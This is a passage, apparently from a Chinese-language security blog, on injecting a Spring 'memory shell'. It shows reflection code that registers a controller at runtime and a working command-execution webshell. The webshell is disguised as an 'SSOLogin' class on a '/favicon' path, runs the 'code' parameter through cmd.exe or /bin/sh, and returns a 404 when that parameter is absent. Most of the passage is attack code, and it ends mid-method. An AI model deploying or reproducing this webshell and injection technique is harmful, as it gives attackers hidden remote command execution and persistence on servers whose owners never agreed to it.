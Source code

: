 ```java
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/favicon", "dynamicController");

三、detectHandlerMethods
 context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```

### controller 中的 Webshell 逻辑

在使用 registerMapping 动态注册 controller 时，不需要强制使用 [@RequestMapping](https://github.com/RequestMapping) 注解定义 URL 地址和 HTTP 方法，其余两种手动注册 controller 的方法都必须要在 controller 中使用[@RequestMapping](https://github.com/RequestMapping) 注解 。

除此之外，将 Webshell 的代码逻辑写在主要的 Controller 方法中即可。

下面提供一个简单的用来执行命令回显的 Webshell 代码示例：

```java
package me.landgrey;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;

@Controller
public class SSOLogin {

    @RequestMapping(value = "/favicon")
    public void login(HttpServletRequest request, HttpServletResponse response){
        try {
            String arg0 = request.getParameter("code");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
                String o = "";
                java.lang.ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new java.lang.ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                }else{
                    p = new java.lang.ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            }else{
                response.sendError(404);
            }
```